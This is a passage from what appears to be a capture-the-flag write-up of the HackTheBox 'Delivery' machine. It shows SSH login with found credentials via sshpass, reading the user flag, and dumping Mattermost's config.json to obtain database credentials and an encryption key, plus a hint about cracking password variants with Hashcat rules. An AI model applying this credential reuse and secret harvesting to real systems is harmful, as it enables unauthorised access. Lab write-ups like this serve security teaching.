 ![image-20210106162655389](https://0xdfimages.gitlab.io/img/image-20210106162655389.png)

I’ll note creds for the account maildeliverer, as well as a hint that a lot of
the passwords on the box are variants of “PleaseSubscribe!”, and a note about
how Hashcat rules will find the variants.

### SSH

Those creds do work to SSH to the box:

    
    
    oxdf@parrot$ sshpass -p 'Youve_G0t_Mail!' ssh maildeliverer@10.10.10.222
    Warning: Permanently added '10.10.10.222' (ECDSA) to the list of known hosts.
    Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
    

And grab `user.txt`:

    
    
    maildeliverer@Delivery:~$ cat user.txt
    6b22a6ae************************
    

## Shell as root

### Enumeration

#### MM Config

Mattermost stores it’s configuration in `/opt/mattermost/config/config.json`.
The database connection information is in here:

    
    
    maildeliverer@Delivery:/opt/mattermost/config$ cat config.json 
    ...[snip]...
        "SqlSettings": {
            "DriverName": "mysql",
            "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
            "DataSourceReplicas": [],
            "DataSourceSearchReplicas": [],
            "MaxIdleConns": 20,
            "ConnMaxLifetimeMilliseconds": 3600000, 
            "MaxOpenConns": 300,
            "Trace": false,
            "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
            "QueryTimeout": 30,
            "DisableDatabaseSearch": false
        },    
    ...[snip]...
    